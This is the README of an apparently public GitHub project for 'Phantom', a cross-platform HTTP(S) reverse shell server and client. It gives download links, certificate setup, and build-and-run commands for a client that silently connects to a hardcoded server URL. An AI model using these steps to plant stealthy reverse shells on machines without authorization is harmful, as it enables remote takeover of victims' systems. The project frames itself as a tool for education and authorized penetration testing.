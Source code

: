 # Phantom - A multi-platform HTTP(S) Reverse Shell Server and Client

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Phantom?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Phantom)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Phantom is a **multi-platform HTTP(S) Reverse Shell** server and client in Python 3. Binaries for
Linux and Windows platforms can be built through an embedded script that executes 
PyInstaller.

Reverse shells can be established through HTTP or HTTPS. The certificates used for 
HTTPS can be auto-generated by Phantom or supplied by the user.

Phantom includes a helper shell script that enables fast generation of
self-signed certificates for use of both servers and clients. After generation, the
server and certificate authority certificates required for encrypted connections 
are bundled in the binaries for portability and ease of execution.

## Demo
![demo](https://github.com/EONRaider/static/blob/97b0e81aee6eb0f2b255a26cd138299e2361d025/https-reverse-shell/usage.gif)

## Try it out!
Simply head over to the [dist directory](https://github.com/EONRaider/BCA-Phantom/tree/master/dist) 
and download the pre-built Linux/Unix or Windows binaries.

The HTTP client files are set to connect to http://localhost:8080, whereas the HTTPS client bundles a CA certificate file for https://localhost:4443 and will
only connect to this socket. With that in mind, choose either HTTP or HTTPS and run the server on one shell:
```shell
./linux_server http://localhost:8080
            <-- or -->
./linux_server https://localhost:4443
```
And the client on another one...
```shell
./http_linux_client
     <-- or -->
./https_linux_client
```
The same procedure works for the Windows binaries.

## Setup
### HTTP Server and Client
*You don't need to set up the server and client for HTTP connections.* The server will 
work straight out-of-the-box and the client will connect to any HTTP server. Just [download 
the HTTP binaries from dist](https://github.com/EONRaider/BCA-Phantom/tree/master/dist) 
and you're done. Execute the binaries with the `--help` option for instructions.

### HTTPS Server and Client
Encrypted communication through HTTPS requires at least two certificates: One for 
the server, named `server.pem` by default, and another for the certificate authority, or `ca.pem`. 
Phantom bundles both files in binaries for fast deployment. They can be 
generated by [multiple methods](https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs) 
or by a simple execution of the [generate_certs.sh](https://github.com/EONRaider/BCA-Phantom/blob/master/src/generate_certs.sh) helper script.

Once the certificates are ready you only need to follow the steps from the [build](https://github.com/EONRaider/BCA-Phantom/tree/master#build) 
section below.

## Build and Run an HTTPS Server/Client
### I. Install Dependencies
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended)
and [Virtualenv](https://virtualenv.pypa.io/en/latest/). You need to install all 
dependencies before building binaries.
```shell
git clone https://github.com/EONRaider/BCA-Phantom.git
cd BCA-Phantom
poetry install <--or--> pip install -r requirements.txt
```

### II. Build HTTPS Server and Client binaries
The `build.py` file centralizes the process and takes care of it all. Notice that 
a built Client binary contains a *hardcoded server URL*. **The connection to the server can 
be stealthily performed by simply executing the binary.**
- Build and run the **Server**
    ```shell
    python build.py server --server-cert /path/to/server.pem
    ./linux_server SERVER_URL
    ```
- Build and run the **Client**
  ```shell
  python build.py client --url SERVER_URL --ca-cert /path/to/ca.pem
  ./https_linux_client
  ```
The same procedure works for the Windows binaries.

## Legal Disclaimer
The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
